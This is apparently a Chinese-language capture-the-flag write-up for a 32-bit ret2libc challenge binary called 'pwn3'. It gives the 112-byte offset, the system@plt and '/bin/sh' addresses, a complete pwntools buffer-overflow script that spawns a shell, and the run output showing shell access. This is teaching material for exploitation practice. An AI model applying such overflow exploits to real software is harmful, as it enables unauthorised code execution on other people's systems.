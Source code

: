 

关键点：

1. s ---ebp 参数位置

2. 导入表函数地址获取，/bin/sh 字段查找

3. 编写pwn 



   解决方法：

   1.  ebp  112 

   2.  0804A114  system   地址    

   3. ```
       ROPgadget --binary pwn3 --string "/bin/sh"
       ```

      Strings information
      ============================================================
      0x08048720 : /bin/sh
      
      ```

   4. pwn编写： 

      ```
      system 调用堆栈结构:
      system_plt    add esp,4  先偏移4个字节开始栈顶
      0xadbcdadbc  pop ebx  取出esp 是的内容 放入ebx   (system函数返回地址)
      sh_addr      call system; ret； ret 指向esp -4\
      
      #!/usr/bin/env python
      from pwn import *
      
      sh = process('./pwn3')
      
      system_plt = 0x08048460
      sh_addr = 0x8048720
      payload = flat(['a' * 112, system_plt, 0xabcdabcd, sh_addr])
      sh.sendline(payload)
      
      sh.interactive()
      
      ```

      ```
      python pwn3.py 
      [!] Pwntools does not support 32-bit Python.  Use a 64-bit release.
      [+] Starting local process './pwn3': pid 3563
      [*] Switching to interactive mode
      RET2LIBC >_<
      $ ls
      \          exp1.py   pwn1     pwn3.py
      ```

